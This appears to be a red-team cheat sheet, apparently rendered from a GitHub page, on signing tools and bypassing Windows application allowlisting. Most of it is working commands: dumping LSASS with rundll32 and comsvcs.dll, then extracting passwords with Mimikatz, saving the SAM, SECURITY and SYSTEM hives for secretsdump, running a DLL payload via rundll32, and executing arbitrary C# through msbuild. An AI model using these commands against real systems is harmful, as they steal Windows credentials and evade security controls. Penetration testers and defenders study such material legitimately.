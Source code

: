 #### Check .pfx file for code signing EKU
-  `Code Signing 1.3.6.1.5.5.7.3.3`
-  `Cert Hash(sha1)` to validate cert hash
```
certutil -v -dump -p "<PASSWORD>" <PATH TO PFX>
```

#### Sign a tool
- https://learn.microsoft.com/en-us/dotnet/framework/tools/signtool-exe
```
.\signtool.exe sign /fd SHA256 /a /f <PATH TO PFX FILE> /p '<PASSWORD>' <EXE TO SIGN>
```

#### Get Signer Certificate of tool
```
Get-AuthenticodeSignature -FilePath <PATH TO EXE>
```

## Bypass application allowlisting
- https://github.com/bohops/UltimateWDACBypassList

#### LOLBAS
- Use Microsoft Signed Binaries to exploit https://lolbas-project.github.io/
- Can be used to bypass Applocker or WDAC

#### rundll32.exe and comsvcs.dll dumping lsass:
```
Get-Process | Select-String lsass
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PROCESS ID> C:\Users\Public\lsass.dmp full
dir C:\Users\Public\lsass.dmp

Invoke-Mimikatz -Command '"sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords"'
```

#### Reg.exe dumping sam
```
reg save HKLM\SECURITY security.bak
reg save HKLM\SYSTEM system.bak
reg save HKLM\SAM sam.bak

Invoke-Mimikatz -Command '"lsadump::sam system.bak sam.bak"'
secretsdump.py -sam sam.bak -security security.bak -system system.bak local
```

#### rundll32.exe dll payload
```
C:\Windows\System32\rundll32.exe <FILE>.dll,StartW
```

### Msbuilt.exe
- Can be used to execute arbitrary C# code from a `.csproj` or `.xml` file.
```
msbuild.exe <FILE>
```
